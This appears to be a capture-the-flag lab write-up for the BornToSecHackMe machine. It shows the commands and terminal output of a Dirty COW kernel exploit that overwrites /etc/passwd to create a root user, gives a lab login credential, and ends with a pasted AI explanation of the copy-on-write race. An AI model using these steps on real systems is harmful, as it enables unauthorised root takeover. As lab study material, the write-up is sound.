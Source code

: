 ## Dirty Cow exploit on zaz

let's directly ssh on zaz using writeup1 methods

ssh zaz@192.168.56.109

646da671ca01bb5d84dbb5fb2238dc8e

copy the script via scp:
scp cow.c zaz@192.168.56.109:~/

compile it: gcc -pthread cow.c -lcrypt

```
zaz@BornToSecHackMe:~$ ./a.out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.

zaz@BornToSecHackMe:~$ 
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
su
Password: 
firefart@BornToSecHackMe:/home/zaz# whoami
firefart
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@BornToSecHackMe:/home/zaz# 

```

## Explanation of the exploit

The Dirty COW exploit allows a malicious user to gain higher privileges on a Linux system by exploiting a race condition in the Copy-On-Write (COW) feature of the kernel, enabling them to write to files they should only be able to read.

GPT explanation:

```
Copy On Write Mechanism: Linux uses a memory management optimization called Copy On Write (COW). When a process wants to modify a piece of memory that's shared between multiple processes (like a memory-mapped file), the kernel will normally create a private copy (or "clone") of this memory for the process. This way, the original shared memory remains unchanged for other processes.

Shared Memory Modification: In the Dirty COW exploit, a process starts modifying a shared piece of memory that should trigger the COW mechanism.

Race Condition Exploit: Simultaneously, the same process or another process tries to write to this memory area. Due to a flaw in the kernel, there's a brief window of time (a race condition) where the memory changes can be written to the original shared memory, instead of a private copy. This is not supposed to happen under normal circumstances.

Privilege Escalation: This vulnerability is particularly serious because it can allow an unprivileged process (like a regular user process) to modify memory that it shouldn't have access to. This can include memory that belongs to the kernel itself or to other privileged processes. As a result, an attacker could use this exploit to gain elevated privileges on the system, potentially taking full control.
```